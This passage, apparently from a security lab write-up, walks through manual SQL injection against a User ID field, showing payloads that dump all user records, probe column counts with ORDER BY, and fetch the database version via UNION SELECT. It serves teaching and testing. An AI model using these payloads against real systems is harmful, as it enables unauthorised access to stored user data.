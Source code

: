   <img src="images/first_injection.png" width="300" alt="Confirming SQL Injection vulnerability by retrieving all user records"/>

  </p>



     - **Explanation**: The payload `' OR 1=1 #` appends an always-true condition, bypassing the ID check, and `#` comments out trailing query parts, returning all `users` table records.



     



  3. **Determining Number of Fields**:

     - I entered `1' ORDER BY 1 #`, `1' ORDER BY 2 #`, and `1' ORDER BY 3 #` in the User ID field.

     - The first two returned normal responses; the third returned an error: `Unknown column '3' in 'order clause'`.

     - **Explanation**: The `ORDER BY` tests revealed the query involves two fields.

       



  4. **Checking DBMS Version**:

     - Entered `1' OR 1=1 UNION SELECT 1, VERSION()#` and observed:



       <p align="center">
